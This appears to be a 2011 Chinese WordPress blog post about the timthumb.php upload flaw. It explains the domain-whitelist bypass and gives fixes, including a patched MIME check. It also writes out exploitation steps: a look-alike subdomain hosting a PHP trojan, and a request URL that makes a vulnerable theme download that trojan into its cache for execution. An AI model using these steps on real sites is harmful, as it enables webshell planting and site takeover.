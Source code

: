 ```yaml
---
title: 110804 请小心 timthumb.php
author: 张 清月
layout: post
permalink: /2205.html
bot_views:
  - 269
views:
  - 1203
post_views_count:
  - 0
ratings_users:
  - 0
ratings_score:
  - 0
duoshuo_thread_id:
  - 1280248249638191298
categories:
  - Code
tags:
  - loper1.2
  - timthumb.php
  - wordpress
  - 上传漏洞
---
```

[<img class="aligncenter size-medium wp-image-2206" title="uploadld" src="http://www.80aj.com/wp-content/uploads/2011/08/uploadld-300x187.jpg" alt="" width="300" height="187" />][1]

今天早上 CNBETA爆出了 wordpress 的  谷歌写的  timthumb.php 上传漏洞

我分析了下 入侵规则如下:

<pre dir="ltr">0 <span style="color: #888a85;">=&gt;</span></pre>

<small>string</small>

<pre dir="ltr"><span style="color: #cc0000;">'flickr.com'</span> <em>(length=10)</em>
  1 <span style="color: #888a85;">=&gt;</span></pre>

<small>string</small>

<pre dir="ltr"><span style="color: #cc0000;">'picasa.com'</span> <em>(length=10)</em>
  2 <span style="color: #888a85;">=&gt;</span></pre>

<small>string</small>

<pre dir="ltr"><span style="color: #cc0000;">'blogger.com'</span> <em>(length=11)</em>
  3 <span style="color: #888a85;">=&gt;</span></pre>

<small>string</small>

<pre dir="ltr"><span style="color: #cc0000;">'wordpress.com'</span> <em>(length=13)</em>
  4 <span style="color: #888a85;">=&gt;</span></pre>

<small>string</small>

<pre dir="ltr"><span style="color: #cc0000;">'img.youtube.com'</span> <em>(length=15)</em></pre>

<pre dir="ltr"></pre>

以上文件是timthumb.php 支持 图片的下载地址 或者 ALLOW_EXTERNAL 为TRUE 都会被跳过域名检查.

漏洞利用:

创建一个域名 http://flickr.com.80aj.com/

目录下上传 80aj.php

寻找有 timthumb.php 的主题或者插件包

这里只提供一个  关于  loper1.2 主题包 中就自带 timthumb.php文件  
使用如下URL上传木马:

http://www.*.com/wp-content/themes/loper1.2/timthumb.php?src=http://flickr.com.80aj.com/80aj.php

上传完以后访问:

http://www.*.com/wp-content/themes/loper1.2/cache/

寻找刚才上传的文件 直接访问即可.

修复方法:  
cache 目录下创建 index.html 或者 php  
进制 cache目录执行PHP相关代码  
代码后缀过滤 ,虽然代码中过滤了 进制上传的类型 但还是会下载下来

timthumb.php 相关强制关闭

<pre lang="php">/**
 * determine the file mime type
 *
 * @param  $file
 * @return
 */
function mime_type ($file) {

	$file_infos = getimagesize ($file);
	$mime_type = $file_infos['mime'];

    // use mime_type to determine mime type
    if (!preg_match ("/jpg|jpeg|gif|png/i", $mime_type)) {
		display_error ('Invalid src mime type: ' . $mime_type);
		echo "sorry ,error src type";
		exit();
    }

    return $mime_type;

}</pre>

timthumb.php相关新闻:

http://www.cnbeta.com/articles/150685.htm

 [1]: http://www.80aj.com/wp-content/uploads/2011/08/uploadld.jpg